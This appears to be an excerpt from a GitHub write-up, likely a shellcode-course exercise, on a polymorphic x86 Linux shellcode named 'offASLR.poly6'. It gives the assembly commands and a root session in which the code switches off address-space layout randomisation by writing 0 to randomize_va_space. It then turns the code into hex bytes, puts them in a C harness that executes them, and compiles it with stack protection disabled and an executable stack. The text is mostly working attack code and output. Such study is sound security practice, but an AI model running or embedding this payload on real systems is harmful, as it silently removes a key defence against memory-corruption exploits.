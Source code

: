 ## Testing the Final Code

#### Assembly the Shellcode

```console
 root# nasm -f elf32 offASLR.poly6.nasm -o offASLR.poly6.o
 root# ld offASLR.poly6.o -o offASLR.poly6
```

#### Testing the Shellcode
```console
 root# echo '2' > /proc/sys/kernel/randomize_va_space
 root# cat /proc/sys/kernel/randomize_va_space
 2
 root# ./offASLR.poly6
 Segmentation fault (core dumped)
 root# cat /proc/sys/kernel/randomize_va_space
 0
```

### Testing the Shellcode in a Host Program
```
root# objdump -D offASLR.poly6 | grep '[0-9a-f]:' | grep -v 'file' | \
cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | \
sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | \
sed 's/^/"/' | sed 's/$/"/g'
"\xeb\x03\xcd\x80\xc3\x31\xc0\x50\x68\x70\x61\x63\x65\x68\x76\x61\x5f"
"\x73\x68\x69\x7a\x65\x5f\x68\x6e\x64\x6f\x6d\x68\x6c\x2f\x72\x61\x68"
"\x65\x72\x6e\x65\x68\x79\x73\x2f\x6b\x68\x6f\x63\x2f\x73\x68\x2f\x2f"
"\x70\x72\x89\xe3\xb0\x08\xe8\xc4\xff\xff\xff\x89\xc3\x6a\x30\x89\xe1"
"\x31\xd2\x42\xb0\x04\xe8\xb4\xff\xff\xff\xb0\x06\xe8\xad\xff\xff\xff"
```

#### Adding the Shellcode to the Host C Program
```c 
#include<stdio.h>
#include<string.h>
unsigned char code[] = \
"\xeb\x03\xcd\x80\xc3\x31\xc0\x50\x68\x70\x61\x63\x65\x68\x76\x61\x5f"
"\x73\x68\x69\x7a\x65\x5f\x68\x6e\x64\x6f\x6d\x68\x6c\x2f\x72\x61\x68"
"\x65\x72\x6e\x65\x68\x79\x73\x2f\x6b\x68\x6f\x63\x2f\x73\x68\x2f\x2f"
"\x70\x72\x89\xe3\xb0\x08\xe8\xc4\xff\xff\xff\x89\xc3\x6a\x30\x89\xe1"
"\x31\xd2\x42\xb0\x04\xe8\xb4\xff\xff\xff\xb0\x06\xe8\xad\xff\xff\xff"
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```

#### Compiling the C Program
```console
root# gcc -fno-stack-protector -z execstack -o shellcode shellcode.c 
```
